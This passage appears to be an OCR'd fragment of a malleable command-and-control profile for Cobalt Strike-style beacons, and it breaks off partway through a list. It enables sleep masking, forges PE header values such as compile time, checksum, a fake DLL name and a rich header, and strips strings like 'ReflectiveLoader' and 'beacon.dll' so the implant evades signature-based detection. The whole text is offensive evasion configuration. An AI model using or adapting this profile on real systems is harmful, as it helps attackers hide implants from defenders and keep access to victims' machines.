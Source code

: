 
        #TCP and SMB beacons will obfuscate themselves while they wait for a new connection.
        #They will also obfuscate themselves while they wait to read information from their parent Beacon.
        set sleep_mask "true";


        set checksum       "1968945";
        set compile_time   "26 Jul 2021 18:09:30";
        set entry_point    "1099888";
        set image_size_x86 "2072576";
        set image_size_x64 "2072576";
        set name           "InProcessClient.dll";
        set rich_header    "\xd5\x71\x0e\xb3\x91\x10\x60\xe0\x91\x10\x60\xe0\x91\x10\x60\xe0\x85\x7b\x63\xe1\x84\x10\x60\xe0\x85\x7b\x65\xe1\x24\x10\x60\xe0\x48\x64\x64\xe1\x83\x10\x60\xe0\x48\x64\x63\xe1\x9d\x10\x60\xe0\xf7\x7f\x9d\xe0\x92\x10\x60\xe0\x4a\x64\x61\xe1\x93\x10\x60\xe0\x85\x7b\x64\xe1\xb2\x10\x60\xe0\x85\x7b\x61\xe1\x94\x10\x60\xe0\x48\x64\x65\xe1\x0e\x10\x60\xe0\xfb\x78\x65\xe1\x80\x10\x60\xe0\x85\x7b\x66\xe1\x93\x10\x60\xe0\x91\x10\x61\xe0\x5c\x11\x60\xe0\x4a\x64\x69\xe1\x03\x10\x60\xe0\x4a\x64\x63\xe1\x93\x10\x60\xe0\x4a\x64\x60\xe1\x90\x10\x60\xe0\x4a\x64\x9f\xe0\x90\x10\x60\xe0\x91\x10\xf7\xe0\x90\x10\x60\xe0\x4a\x64\x62\xe1\x90\x10\x60\xe0\x52\x69\x63\x68\x91\x10\x60\xe0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";



        transform-x86 {
                prepend "\x90\x90\x90"; # NOP, NOP!
                strrep "ReflectiveLoader" "";
                strrep "This program cannot be run in DOS mode" "";
                strrep "NtQueueApcThread" "";
                strrep "HTTP/1.1 200 OK" "";
                strrep "Stack memory was corrupted" "";
                strrep "beacon.dll" "";
                strrep "ADVAPI32.dll" "";
                strrep "WININET.dll" "";
                strrep "WS2_32.dll" "";
                strrep "DNSAPI.dll" "";
                strrep "Secur32.dll" "";
                strrep "VirtualProtectEx" "";
                strrep "VirtualProtect" "";
                strrep "VirtualAllocEx" "";
                strrep "VirtualAlloc" "";
                strrep "VirtualFree" "";
                strrep "VirtualQuery" "";
                strrep "RtlVirtualUnwind" "";
                strrep "sAlloc" "";
                strrep "FlsFree" "";
                strrep "FlsGetValue" "";
                strrep "FlsSetValue" "";
                strrep "InitializeCriticalSectionEx" "";
                strrep "CreateSemaphoreExW" "";
                strrep "SetThreadStackGuarantee" "";
                strrep "CreateThreadpoolTimer" "";
                strrep "SetThreadpoolTimer" "";
                strrep "WaitForThreadpoolTimerCallbacks" "";
                strrep "CloseThreadpoolTimer" "";
                strrep "CreateThreadpoolWait" "";
                strrep "SetThreadpoolWait" "";
                strrep "CloseThreadpoolWait" "";
                strrep "FlushProcessWriteBuffers" "";
                strrep "FreeLibraryWhenCallbackReturns" "";
                strrep "GetCurrentProcessorNumber" "";
                strrep "GetLogicalProcessorInformation" "";
                strrep "CreateSymbolicLinkW" "";
                strrep "SetDefaultDllDirectories" "";
                strrep "EnumSystemLocalesEx" "";
                strrep "CompareStringEx" "";
                strrep "GetDateFormatEx" "";